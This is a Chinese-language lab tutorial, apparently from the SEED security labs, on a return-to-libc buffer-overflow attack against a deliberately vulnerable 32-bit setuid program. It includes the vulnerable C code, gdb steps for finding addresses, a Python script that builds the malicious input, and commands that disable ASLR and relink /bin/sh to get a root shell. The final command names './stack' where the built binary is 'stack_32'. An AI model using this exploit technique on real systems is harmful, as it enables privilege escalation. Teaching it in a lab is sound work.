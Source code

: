 # return-to-libc 攻击

## 1. 环境准备

> 注：本实验指南已经考虑对SEED VM Ubuntu 20.04-64bit和Ubuntu 16.04-32bit的环境兼容

(关闭地址随机化) `sudo sysctl -w kernel.randomize_va_space=0`

(创建漏洞程序) 程序源码如下：
```c
#include "stdio.h"
#include "stdlib.h"
#include "string.h"

int foo(char *str) {
    char buffer[100];

	strcpy(buffer, str);
	return 1;
} 

int main(int argc, char **argv) {
	char str[400];
	FILE *badfile;

	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 300, badfile);
	foo(str);

	printf("Returned Properly\n");
	return 1;
}

```

(编译32位程序并设置为setuid程序)
```bash
gcc -m32 -fno-stack-protector -z noexecstack -o stack_32 stack.c
sudo chown root stack_32
sudo chmod 4755 stack_32
```

## 2. 通过调试找到system与exit函数地址

```bash
$ touch badfile
$ gdb -q stack_32
$ r
$ p system
# 此处输出system函数地址
$ p exit
# 此处输出exit函数地址
```

## 3. 找到/bin/sh字符串的地址

首先创建一个打印环境变量地址的程序：

```c
// envaddr.c

#include "stdio.h"
#include "stdlib.h"

int main() {
	char *shell = (char *)getenv("MYSHELL");
	if (shell) {
		printf("Value: %s\n", shell);
		printf("Address: %x\n", (unsigned int)shell);
	}
	return 1;
}
```
随后编译并打印环境变量地址（**特别注意**，要开启`-m32`将env55也编译为32位，和stack_32保持一致性）：
```bash
gcc -m32 envaddr.c -o env55
export MYSHELL="/bin/sh"
./env55
# 此处会打印出环境变量MYSHELL的地址，在我的机器上是Address: ffffd495
```

## 4. 构建恶意输入badfile

首先通过调试找到main调用foo函数时，ebp与buffer的地址：
```bash
$ gcc -m32 -fno-stack-protector -z noexecstack -g -o stack_32_dbg stack.c
$ touch badfile
$ gdb -q stack_32_dbg
$ b foo
$ r
$ n
$ p $ebp
# 此处输出ebp的地址，我的机器为0xffffd018
$ p &buffer
# 此处输出buffer的地址，我的机器为0xffffcfac
$ p/d 0xffffd018 - 0xffffcfac
108 # 该差值在不同机器一致
```

编写python脚本(ret2libc_exploit.py)生成badfile

```python
#!/usr/bin/python3
import sys


content = bytearray(0xaa for i in range(300))

a3 = 0xffffd495 # address of 'bin/sh'
content[120:124] = (a3).to_bytes(4, byteorder='little')

a2 = 0xf7e04f80 # address of exit() function
content[116:120] = (a2).to_bytes(4, byteorder='little')

a1 = 0xf7e12420 # address of system() function
content[112:116] = (a1).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as wb:
    wb.write(content)
```

注意：其中的a1、a2、a3根据你自己调试获得的地址赋值。

```bash
# 生成badfile
chmod u+x ret2libc_exploit.py
./ret2libc_exploit.py
```

## 5. 发起攻击

```bash
# 让/bin/sh指向/bin/zsh
sudo ln -sf /bin/zsh /bin/sh
# 执行stack_32
./stack
# 此时应该得到shell, 使用id查看权限
id
```
